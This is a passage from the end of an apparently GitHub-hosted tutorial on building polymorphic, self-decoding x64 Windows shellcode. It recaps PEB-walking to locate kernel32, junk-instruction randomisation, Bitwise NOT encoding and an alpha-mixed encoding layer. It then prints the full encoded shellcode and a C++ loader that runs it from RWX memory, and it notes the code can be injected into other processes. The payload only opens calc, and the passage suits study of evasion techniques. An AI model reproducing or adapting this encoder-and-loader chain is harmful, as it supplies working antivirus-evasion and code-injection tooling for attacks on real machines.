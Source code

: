 When you run that, you will get something like this:

<img width="1460" height="496" alt="image" src="https://github.com/user-attachments/assets/2b381499-73e7-49ca-8252-6ed4d99b8fc1" />

That's it!  You've done it!  That is the final shellcode we were looking for.  So what did we just do?  Well, we...

- We started with a barebones x64 assembly template that uses WinExec to spawn the windows calculator
  -  This assembly code is also unique in that it locates the kernel32 base starting with TEB, then locating PEB, then locating kernel32 by it's unicode string via a string comparison
- Layered our original shellcode with benign assembly instructions which introduce randomness to our code
- We introduced a self-decoding Bitwise NOT encoded shellcode
- We then took that shellcode and added yet another layer of polymorphism and made it Alpha/Mix compatible.

I may have missed something in the bullet points above, but that' the gist of it.  Now, you can use this final form of shellcode any way you like.  You can inject it into another process, run it as is, etc.  I'll go ahead and just run it as-is for demonstration purposes.  

```cpp
#include <windows.h>
#include <iostream>

const unsigned char shellcode[] =
"H" "\x8d" "5" "#" "\x00" "\x00" "\x00" "D" "\x8a" "\r" "B" "\x00" "\x00" "\x00" "¹" "\x98" "\x01" "\x00" "\x00" "\x8a" "\x06" "D" "0" "È" "ö" "Ð" "\x88" "\x06" "H" "ÿ" "Æ" "â" "ò" "H" "\x8d" "\x05" "\x02" "\x00" "\x00" "\x00" "ÿ" "à" "\x1e" "Ô" "µ" "\x1b" "Ð" "¿" "{" "\x1b" "Þ" "l" "\x1b" "Ð" "·" "£" "\x1e" "Ô" "§" "\x1b" "b" "\x9a" "\x1a" "Ô" "¯" "6" "\x1b" "Ø" "W" "v" "c" "S" "S" "S" "\x1b" "Ø" "\x13" "3" "\x1b" "b" "¬" "\x1b" "Ø" "\x13" "K" "\x1a" "Ô" "\xad" "\x1b" "Ø" "#" "C" "\x1b" "Ð" "\x94" "S" "\x1b" "Ø" "e" "\x1f" "Ô" "¼" "\x1b" "Ø" "\x1d" "3" "\x1f" "Ô" "¼" "\x1b" "Ø" "J" "\x1e" "Ô" "¿" "\x1b" "é" "\x18" "S" "\x16" "S" "\x01" "S" "\x1d" "S" "\x1b" "b" "¬" "\x1b" "j" "\x80" "\'" "[" "\x1a" "Ô" "¯" "&" "\x85" "\x1f" "Ô" "´" "\x1b" "Ø" "\r" "c" "\x1e" "Ú" "¥" "\x1a" "Ú" "\x8b" "\x1e" "Ô" "¶" "Ø" "\x08" "o" "\x1e" "8" "·" "R" "\x1f" "R" "\x90" "\x1e" "Ú" "·" "\x1b" "b" "\x9a" "\x1a" "\x92" "¶" "S" "5" "Ò" "\x92" "¬" "Û" "\x1e" "Ô" "½" "\x1b" "\x92" "º" "[" "\x1a" "\x92" "\x9f" "S" "Ø" "G" "X" "\x1f" "Ô" "´" "\x1f" "R" "\x91" "\x1e" "Ú" "¾" "\x17" "Ø" "\x01" "G" "\x1e" "b" "¾" "\x1e" "b" "\x88" "\x1a" "Ð" "¿" "S" "\x17" "Ø" "\t" "s" "\x1a" "Ð" "\xad" "S" "\x1e" "R" "\x90" "\x1e" "Ô" "½" "\x1f" "Ú" "\x82" "\x1f" "Ô" "¼" "\x1b" "ë" "û" "Å" "Â" "é" "Ô" "É" "Ï" "<" "\x1b" "\x92" "\x9c" "S" "\x1b" "¤" "\x83" "\x1a" "Ô" "®" "\x1b" "\x92" "³" "[" "\x1e" "Ú" "¾" "\x1b" "\x92" "»" "[" "\x1e" "Ô" "µ" "\x03" "\x1e" "Ö" "¥" "\x1b" "Ú" "³" "\x1a" "Ô" "\xad" "\x1b" "Ð" "\x97" "[" "\x1e" "Ú" "·" "4" "°" "c" "\x1a" "Ô" "\xad" "b" "\x88" "\x1a" "Ô" "¯" "\x12" "Ø" "O" "Ø" "\x1b" "\x92" "´" "S" "\x1f" "R" "\x90" "\x1e" "Ô" "µ" "\x1b" "¬" "\x9a" "\x1a" "Ô" "¯" "\x1f" "Ø" "[" "\x1e" "Ô" "§" "\x1f" "j" "X" "\'" "^" "\x1e" "Ô" "½" "&" "\x82" "\x1a" "\x92" "µ" "S" "\x9f" "\x1a" "Ô" "¯" "¬" "\x92" "\x1e" "Ö" "·" "\x1e" "b" "\x88" "\x1e" "Ô" "§" "\x17" "Ø" "\t" "O" "\x1f" "Ô" "¤" "\x1e" "R" "\x90" "\x1e" "Ô" "¿" "\x16" "Ø" "o" "Ø" "\x1a" "Ô" "\xad" "\x1e" "R" "\x94" "\x1e" "b" "¥" "\x1b" "b" "\x93" "\x1a" "Ð" "\x96" "S" "\x03" "\x1a" "Ô" "®" "\x1b" "ë" "Ï" "Í" "À" "Ï" "\x82" "É" "Ô" "É" "\x1a" "Ð" "¯" "S" "\x1b" "¤" "\x83" "\x1e" "Ô" "½" "\x03" "\x1a" "Ô" "\xad" "\x1b" "Ú" "²" "\x1e" "Ö" "·" "\x1b" "b" "\x81" "\x1e" "Ô" "½" "\x1b" "¬" "\x91" "\x1a" "Ô" "\xad" "\x1b" "Ð" "¿" "c" "\x1a" "Ô" "¯" "\x12" "¬" "\x84" "\x1e" "Ô" "§" "S" "S" "S" "S" "S";

int main() {
    size_t shellcode_size = sizeof(shellcode);
    void* exec_mem = VirtualAlloc(nullptr, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (exec_mem == nullptr) {
        std::cerr << "Memory allocation failed\n";
        return -1;
    }

    memcpy(exec_mem, shellcode, shellcode_size);
    auto shellcode_func = reinterpret_cast<void(*)()>(exec_mem);
    shellcode_func();

```